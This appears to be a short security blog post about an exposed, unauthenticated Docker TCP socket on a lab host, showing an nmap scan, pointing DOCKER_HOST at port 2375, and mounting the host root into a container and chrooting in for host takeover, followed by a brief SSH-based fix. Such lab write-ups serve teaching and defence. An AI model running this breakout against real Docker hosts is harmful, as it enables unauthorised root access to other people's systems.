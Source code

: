 ```yaml
---
layout: post
title: 'Securely Accessing Remote Docker Host'
date: '2021-08-16'
description: 'The Docker TCP socket by default doesn't support any authentication. and, if the Docker socket is exposed on an external interface, anyone can connect to it and issue docker commands. This can even lead to host takeover if the Docker daemon is running as root.'
coverimage: Securely_Accessing_Remote_Docker_Host_HjjWMVv.jpg
tags: docker
published: true
posttype: article
categories: blog
---
```

Docker is running out box without the socket set
```
evilsaint@marvel.lab:~# docker ps
Cannot connect to the Docker daemon at unix:///var/run/docker.sock. Is the docker daemon running?

evilsaint@marvel.lab:~# docker images
Cannot connect to the Docker daemon at unix:///var/run/docker.sock. Is the docker daemon running?
```


Nmap Scan showing exposed Docker API port. 
```
nmap -sSV -p- 192.190.96.3
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-17 00:34 IST
Nmap scan report for docker-host (192.190.96.3)
Host is up (0.000015s latency).
Not shown: 65532 closed ports
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
2375/tcp open  docker     Docker 19.03.1 (API 1.40)
2376/tcp open  tcpwrapped
MAC Address: 02:42:C0:BE:60:03 (Unknown)
Service Info: OSs: Linux, linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.11 seconds
````


Define the DOCKER_HOST environment variable to point to this remote TCP socket.
```
export DOCKER_HOST=192.190.96.3:2375
```

Now we can mount the image to the host volume and do a host breakout if permissions are in place
```
evilsaint@marvel.lab:~# docker run -it -v /:/host ubuntu:18.04 bash
root@6a01ea2ace07:/# chroot /host
#
```

## How can we secure this 

I will SSH into the remote host to perform the fix 

Let us kill the docker
```
ps -ef | grep docker
```

```
kill <pid>
```

Restart the docker service
```
service docker start
```

Now we export the docker host to be accessible over SSH
```
root@localhost:~# export DOCKER_HOST=ssh://root@192.190.96.3
```
